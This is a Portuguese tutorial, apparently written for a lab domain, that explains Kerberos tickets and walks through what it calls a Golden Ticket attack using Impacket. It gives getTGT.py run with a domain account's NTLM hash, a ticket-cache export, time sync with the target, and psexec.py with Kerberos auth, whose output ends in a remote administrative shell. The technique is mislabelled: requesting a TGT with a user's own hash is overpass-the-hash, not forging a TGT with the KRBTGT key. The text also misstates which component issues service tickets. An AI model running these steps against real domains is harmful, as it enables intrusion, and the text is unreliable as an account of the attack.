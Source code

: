 # Golden Ticket.

Bom, para iniciarmos o nosso estudo sobre **Golden Ticket**, nós vamos definir o processo do aprendizado em etapas:

1. **O que é Kerberos?**
2. **O que é um Ticket?**
3. **Como isso funciona?**
4. **O que é ataque de Golden Ticket?**
5. **O que é Impacket?**
6. **Como faço o ataque?**

---

Iniciando pela primeira etapa, vamos definir o que é **Kerberos**. O mesmo se trata de um **protocolo de rede** onde fornece **autenticação** ao usuário solicitado. O foco da criação do Kerberos foi tratar de maneira segura a autenticação do usuário na rede.

Com a intenção de tratar de maneira segura a autenticação de um usuário na rede, o Kerberos utiliza de uma feature chamada de **Ticket**. O Ticket irá funcionar para verificar e autorizar a autenticidade daquele usuário, comprovando de que aquele usuário é de fato ele mesmo. 

Em um ambiente de **Active Directory**, todo Domain Controller (DC) possui um centro de distribuição de Kerberos, ou **Kerberos Distribution Center** (KDC), serviço que processa todas as requisições para o Kerberos. Com isso, há uma conta chamada **KRBTGT**, usuário responsável para atuar como uma conta serviço para o KDC. É ela que irá assinar/criptografar tickets emitidos pelo KDC.

Outro componente importante é o **Authentication Server** (AS). É nele que ocorre a verificação do cliente. Caso a verificação seja concluída com êxito, ele retorna para o usuário um ticket chamado **TGT** (Ticket Granting Ticket) ****e uma chave de sessão.

O **TGT** é o ticket utilizado para confirmar que o usuário foi de fato autenticado com sucesso. Outro componente importante do processo é o **TGS** (Ticket Granting Server). É exatamente o **TGS** que permitirá que o usuário acesse os serviços da rede. Abaixo, há uma ilustração de como ocorre o processo:

![Untitled](Golden%20Ticket%20df4f87a4d2a1485c998a5ac79970188d/Untitled.png)

Como vimos, o cliente (usuário legítimo) envia o seu usuário para o **AS** (Authentication Server), e o mesmo retorna uma chave de sessão e o Ticket (**TGT**). Com o TGT em mãos, o cliente retorna para o AS o TGT e uma requisição para o serviço que ele quer usar. Caso o TGT for válido, o AS irá retornar para o cliente o Ticket que permitirá ele utilizar os serviços da rede. Feito isso, o usuário conseguirá utilizar os serviços da rede. 

Como vimos, o AS retorna para o usuário a chave de sessão e o TGT para confirmar que de fato ele foi autenticado na rede e que ele é de fato quem ele diz ser. Mas, caso burlássemos esse mecanismo e forjássemos o TGT para se passar por outro usuário, o que aconteceria? Elevaríamos privilégios no sistema? A resposta é sim, e o nome disso é ataque de **Golden Ticket**.    

O **Impacket** é uma coleção de scripts feitos em python, sendo possível ser encontrada no [GitHub](https://github.com/SecureAuthCorp/impacket), focadas em invasões em protocolos de redes comumente em ambientes **Windows**. Nessa coleção, é encontrada o que precisamos para realizar o ataque de **Golden Ticket**. Vamos pra prática? 🐙

---

Com isso, avançamos para a primeira etapa do ataque: **a criação do Ticket**. Para criarmos nosso **TGT**, utilizamos o script **[getTGT.py](http://getTGT.py)** para forjarmos o TGT e criarmos um com um usuário com um privilégio maior que o nosso (no meu caso, vai ser o usuário web_svc que possui privilégio de administrador). 

O que fizemos abaixo foi rodar o script “**getTGT.py**” (disponível no Impacket), especificar a **hash** do usuário, o domínio da vítima e o nome de usuário.

![Untitled](Golden%20Ticket%20df4f87a4d2a1485c998a5ac79970188d/Untitled%201.png)

```python
#python2 getTGT.py -hashes :acd9325ab546d6870e3d490684cfe305 relay.uhclabs/svc_webapp

python2 getTGT.py -hashes :HASH_DO_USUARIO DOMAIN/USUARIO
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in svc_webapp.ccache
```

Com isso, agora nós exportamos para nosso [localhost](http://localhost) o Ticket gerado pelo script com o seguinte comando:

```bash
#export KRB5CCNAME=svc_webapp.ccache
export KRB5CCNAME=TICKET_GERADO
```

Agora, nós sincronizamos nosso horário com o da máquina com esse comando (tal fato se deve pelo **Timestamp** do Ticket gerado. É este Timestamp que vai realizar a marcação do tempo atual do servidor, por isso a sincronização com o horário.):

```bash
# sudo ntpdate 172.31.28.153
sudo ntpdate IP_DA_MAQUINA_ALVO
```

Abaixo, especificamos o domínio da máquina, o usuário que forjamos o Ticket, o nome do **Domain Controller** (DC) e dois argumentos essenciais: “-k” e “-no-pass”. O “-k” vem de “**Kerberos Authentication**”, onde o mesmo vai utilizar o “.ccache” que nós geramos com o script **getTGT.py**. E o “-no-pass” simplesmente é para não perguntar a senha. 

E finalmente, vamos pegar a shell! Vamos utilizar o psexec e passar o nosso Ticket forjado para nos autenticarmos no serviço!

```python
#python2 psexec.py relay.uhclabs/svc_webapp@EC2AMAZ-HDQ6ICO.RELAY.UHCLABS -k -no-pass
python2 psexec.py DOMAIN/USUARIO@DOMAIN_CONTROLLER -k -no-pass
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on EC2AMAZ-HDQ6ICO.RELAY.UHCLABS.....
[*] Found writable share ADMIN$
[*] Uploading file SgxvJTis.exe
[*] Opening SVCManager on EC2AMAZ-HDQ6ICO.RELAY.UHCLABS.....
[*] Creating service apKU on EC2AMAZ-HDQ6ICO.RELAY.UHCLABS.....
[*] Starting service apKU.....
[!] Press help for extra shell commands
```

E assim, conseguimos realizar um ataque de Golden Ticket!

![Untitled](Golden%20Ticket%20df4f87a4d2a1485c998a5ac79970188d/Untitled%202.png)